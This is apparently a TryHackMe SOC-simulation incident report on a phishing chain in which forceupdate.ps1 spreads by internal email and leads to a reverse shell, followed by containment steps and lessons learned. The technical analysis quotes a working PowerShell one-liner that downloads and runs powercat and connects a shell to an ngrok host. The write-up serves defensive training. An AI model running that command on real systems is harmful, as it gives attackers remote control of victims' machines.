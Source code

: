 # TryHackMe SOC Simulation: Phishing Incident Response Report

## Summary

This document outlines the investigation and response to a phishing incident analyzed during a TryHackMe SOC simulation. The simulation involved tracking down the origin of a suspicious PowerShell script, identifying lateral movement via internal email, and uncovering the establishment of a reverse shell through a common tunneling service.

## Scenario Overview

- Platform: TryHackMe SOC Simulation
- Date: March 25th, 2025
- Primary Incident: Internal phishing email with a script-based attachment
- Affected users: Michelle Smith, Yani Zubair, Michael Ascot
- Key file: forceupdate.ps1
- Communication with: 2.tcp.ngrok.io on port 19282

## Alert Breakdown

### Alert ID 1004
- Description: Suspicious attachment found in an internal email
- Sender: yani.zubair@tryhatme.com
- Recipient: michelle.smith@tryhatme.com
- Attachment: forceupdate.ps1
- Subject: Force update fix
- Classification: False Positive

Although this alert flagged Yani as the origin of the malicious attachment, further investigation showed that Michelle Smith had downloaded the file from the internet and forwarded it. Yani’s message was a reply or internal transfer of the already known script. Therefore, this alert did not represent a new threat and is considered a false positive.

### Alert ID 1007
- Description: Suspicious attachment in internal email
- Sender: michelle.smith@tryhatme.com
- Recipient: yani.zubair@tryhatme.com
- Attachment: forceupdate.ps1
- Subject: Force update fix
- Classification: True Positive

This was the actual point of concern. Michelle downloaded the PowerShell script using Internet Explorer, and shortly after, forwarded it to Yani. This activity marked the beginning of the malicious file's spread.

## Timeline of Events

- 05:41:51 - Alert triggered for internal email with PowerShell attachment
- 06:03:56 - Michelle downloaded forceupdate.ps1 using Internet Explorer
- 06:04:52 - Yani received a forwarded phishing email from an external sender
- 06:06:34 - Michael opened a ZIP file named ImportantInvoice-Febrary.zip
- 06:06:42 - DNS queries were made to raw.githubusercontent.com
- 06:06:50 - PowerShell reverse shell executed using powercat.ps1
- 06:06:53 - Outbound connection established to 2.tcp.ngrok.io:19282

## Technical Analysis

Michelle Smith, the initial victim, downloaded a file named forceupdate.ps1. She then sent it to Yani Zubair in an internal email. The script was later executed by Michael Ascot after he opened a phishing ZIP file, which likely contained a disguised shortcut file. PowerShell was used to download and execute the payload.

The attacker leveraged a publicly available script (powercat.ps1) hosted on GitHub. Once executed, it created a reverse shell back to an Ngrok tunnel.

PowerShell command executed:
```
IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1'); powercat -c 2.tcp.ngrok.io -p 19282 -e powershell
```

DNS queries confirmed the host reached out to both raw.githubusercontent.com and the Ngrok endpoint.

## Containment and Response

The following steps were taken to contain the incident:

- Isolated the infected hosts (win-3450 and win-3459)
- Reset credentials for Michelle, Yani, and Michael
- Blocked outbound access to *.ngrok.io
- Deleted forceupdate.ps1 and the associated ZIP files from user directories
- Created detection rules in Splunk for PowerShell using WebClient, and for .ps1 or .lnk files inside compressed archives
- Conducted a follow-up phishing awareness session for users

## Conclusion

This was a confirmed phishing incident that led to the execution of a reverse shell using PowerShell. The original infection began when Michelle Smith downloaded a script via Internet Explorer. The script was then spread through internal email and executed through a deceptive ZIP archive, granting the attacker remote access via Ngrok.

The quick response and containment measures helped prevent further spread. It also highlighted the importance of monitoring internal email traffic and controlling the use of script-based attachments within the organization.

## Lessons Learned

- Internal email is not immune to phishing tactics and should be monitored.
- Blocking or sandboxing script-based attachments can prevent early compromise.
- PowerShell telemetry is critical for detecting live attacks.
- External tunneling services like Ngrok should be reviewed and potentially blocked to reduce risk.
